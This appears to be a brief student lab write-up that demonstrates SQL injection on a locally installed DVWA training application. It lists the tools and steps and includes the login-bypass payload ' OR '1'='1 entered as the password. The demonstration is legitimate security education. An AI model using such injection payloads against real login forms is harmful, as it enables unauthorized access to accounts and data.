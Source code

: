 Task 3 - SQL Injection on DVWA 

Objective
Demonstrate SQL Injection vulnerability on DVWA

Tools Used -
- DVWA 
- LAMP
- Browser

Steps
1. Install DVWA on localhost.
2. Set security level
3. Performed SQL Injection:
```
Username: admin
Password: ' OR '1'='1
```
4. Successfully logged in as admin without knowing the actual password.
